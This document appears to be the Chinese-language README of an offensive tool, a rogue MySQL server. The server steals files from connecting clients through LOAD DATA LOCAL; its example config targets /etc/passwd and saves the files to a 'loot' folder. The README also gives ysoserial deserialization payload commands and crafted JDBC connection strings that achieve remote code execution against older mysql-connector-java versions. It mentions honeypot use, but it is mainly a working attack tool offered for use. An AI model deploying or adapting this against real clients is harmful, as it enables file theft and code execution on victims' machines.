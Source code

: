 # Rogue Mysql Server

基于 https://github.com/vitessio/vitess 实现的恶意 mysql 服务器, 支持 go, php, python, java, 原生命令行等多种语言下的多种库的 mysql 客户端.  
远离恼人的兼容性问题, 测试过的客户端见下表

language | library | pass |
---     | --- | --- | 
go | github.com/go-sql-driver/mysql | ✔️ | 
php | mysqli, pdo | ✔️ | 
python | pymysql | ✔️ | 
java | mysql-connector-java | ✔️ |
native | 10.4.13-MariaDB | ✔️ |

觉得好用可以点右上方的 🌟 支持作者

## 功能

* 可以兼容多种 mysql 客户端
* 可以读取二进制文件
* 自动保存文件
* 作为蜜罐使用时, 可选择开启帐号密码验证
* 读取客户端的 ConnAttr, 可能会包含一些客户端的额外信息
* 对于 jdbc, 可控链接串的情况下可以利用 mysql-connector-java 反序列化漏洞进行 RCE

## 配置文件

示例:
```yaml
host: 0.0.0.0
port: 3306
version_string: "10.4.13-MariaDB-log"

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
always_read: false

auth: true
users:
  - root: root
  - root: password

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```

`host`, `port` 对应监听的 IP 和端口. `version_string` 对应客户端得到的服务端版本信息.  
`auth` 对应是否开启验证, 如果为 `false`, 那么不管输什么密码或者不输入密码都可以登录.  
如果为 `true`, 则需要帐号密码匹配下面的设置的帐号密码中的一条.  
而 `file_list` 对应需要读取的文件, 会按照客户端执行语句的顺序读取列表中的文件, 并保存到 `save_path` 文件夹中.

如果开启 `always_read`, 那么不管客户端是否标记自己支持 LOAD DATA LOCAL, 都会尝试去读取文件, 否则会根据客户端的标记来决定是否读取, 避免客户端请求不同步.

## jdbc 利用相关

在版本 >= 8.0.20, >= 5.1.49 中, 此漏洞已经被修复,  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

与 jdbc 相关的配置如下
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```
`jdbc_exploit` 代表这个功能开启, 在检测到客户端是 mysql-connector-j 的情况下会自动利用. jdbc 利用和读取文件只能同时开启一项, 开启 jdbc 利用会导致无法读取 jdbc 客户端的文件.  
`always_exploit` 代表不检测客户端是否为 jdbc, 总是开启 jdbc 利用.  
`ysoserial_command` 生成反序列化 payload 的命令, 使用 jdbc 的 `connectionAttributes` 选项来指定使用的 payload, 其中 cc4, cc7 对应在连接属性 `t` 中的值. 如果未指定, 则使用提供的所有 payload 中的第一个.  

例如:  
在 8.x 版本下要使用 cc7, jdbc 连接串为 `jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:cc7&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password`

```
8.x: jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
6.x: jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
>=5.1.11: jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password
```

## Ref

jdbc 反序列化思路参考:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql 协议相关:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  
